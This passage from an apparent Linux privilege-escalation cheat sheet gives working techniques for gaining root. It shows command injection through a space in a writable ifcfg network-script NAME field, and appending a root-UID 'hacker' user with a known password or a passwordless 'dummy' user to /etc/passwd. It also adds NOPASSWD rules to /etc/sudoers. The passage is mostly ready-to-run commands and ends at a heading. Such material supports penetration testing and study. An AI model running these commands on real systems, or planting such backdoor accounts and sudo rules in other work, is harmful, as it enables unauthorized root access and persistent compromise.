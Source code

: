 ### Writable /etc/sysconfig/network-scripts/ (Centos/Redhat)

/etc/sysconfig/network-scripts/ifcfg-1337 for example

```powershell
NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0

EXEC :
./etc/sysconfig/network-scripts/ifcfg-1337
```
src : [https://vulmon.com/exploitdetailsqidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f]
(https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

### Writable /etc/passwd

First generate a password with one of the following commands.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```powershell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.    
WARNING: you might degrade the current security of the machine.

```powershell
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`. 

### Writable /etc/sudoers

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```
## Exploiting Services
